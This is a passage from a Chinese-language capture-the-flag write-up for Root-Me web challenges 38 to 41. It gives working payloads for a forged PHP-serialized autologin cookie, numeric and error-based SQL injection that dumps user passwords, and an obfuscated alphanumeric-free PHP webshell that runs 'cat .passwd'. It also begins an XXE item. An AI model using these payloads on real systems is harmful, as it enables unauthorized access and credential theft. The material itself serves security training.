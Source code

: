 构造Cookie如下，并且去掉POST的两个参数，即可绕过。 &#x20;
\[+]Payload:Cookie:autologin=a%3A2%3A%7Bs%3A5%3A%22login%22%3Bs%3A10%3A%22superadmin%22%3Bs%3A8%3A%22password%22%3Bb%3A1%3B%7D

## 38.SQL injection - numeric
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch18/](http://challenge01.root-me.org/web-serveur/ch18/ "http://challenge01.root-me.org/web-serveur/ch18/")
\[+]Statement:获取管理员的密码
\[+]Solution:当输入1‘时，发现会报错，提示存在\，判断应该是加了waf过滤。根据题目提示，为数字型注入，因此不使用单双引号进行注入。
\[+]Payload: &#x20;

```
action=news&news_id=4%20union%20select%201,name,sql%20from%20sqlite_master
action=news&news_id=4%20union%20select%201,username,password%20from%20users
```

## 39.SQL Injection - Routed
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch49/](http://challenge01.root-me.org/web-serveur/ch49/ "http://challenge01.root-me.org/web-serveur/ch49/")
\[+]Statement:找到管理员的密码
\[+]Solution:题目的意思为路由注入，也就跟二次注入差不多，查看页面逻辑，第一个页面怎么登录都显示账户或密码错误，第二个页面发现可以注入，当输入’union select 1时，页面的第二行数据显示为1，根据提示，再在联合查询后跟一个子联合查询，并且使用16进制表示以绕过waf。由于直接查询读数我这里老出语法错误，因此我使用基于报错的查询方式构造Payload，一步步读出密码
\[+]Payload:（需要16进制编码） &#x20;
```
'union select concat(0x7e,database(),0x7e),0 or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema="c_webserveur_49" ),0x7e),1)'--+
'union select concat(0x7e,database(),0x7e),0 or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name="users" ),0x7e),1)'--+
'union select concat(0x7e,database(),0x7e),0 or updatexml(1,concat(0x7e,(select concat_ws(':',login,password) from users limit 1),0x7e),1)'--+
```

## 40.PHP - Eval
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch57/](http://challenge01.root-me.org/web-serveur/ch57/ "http://challenge01.root-me.org/web-serveur/ch57/")
\[+]Statement:找到这个服务器的漏洞并利用。flag在.passwd文件中。
\[+]Solution:题目给出了源码，大致意思是需要构造一个没有字母和反斜杠的webshell，之前看[P总的文章](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html "P总的文章")里有详细介绍无字母数字的webshell构造方法，利用位运算里的取反操作符～可以把汉字里某些字符变成字母，利用这个特性，构造出Payload，可构造出webshell。
\[+]Payload: &#x20;

```
input=$__=('>'>'<')+('>'>'<');$_=$__/$__;$____='';$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});$_=$$_____;$____($_[$__]);&2=system('cat .passwd')

```

## 41.XML External Entity
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch29/](http://challenge01.root-me.org/web-serveur/ch29/ "http://challenge01.root-me.org/web-serveur/ch29/")
\[+]Statement:获取管理员的密码
\[+]Solution:题目考察XXE(外部实体注入)，打开页面是一个在线检测网页是不是合法的RSS格式的页面，可以输入文件的地址。于是在vps上创建一个xsl文件，在里面加入xxePayload，并加上合法的RSS文件格式，在W3CSchool可以找到。输入网址，可以实现文件读取。
\[+]Payload: &#x20;
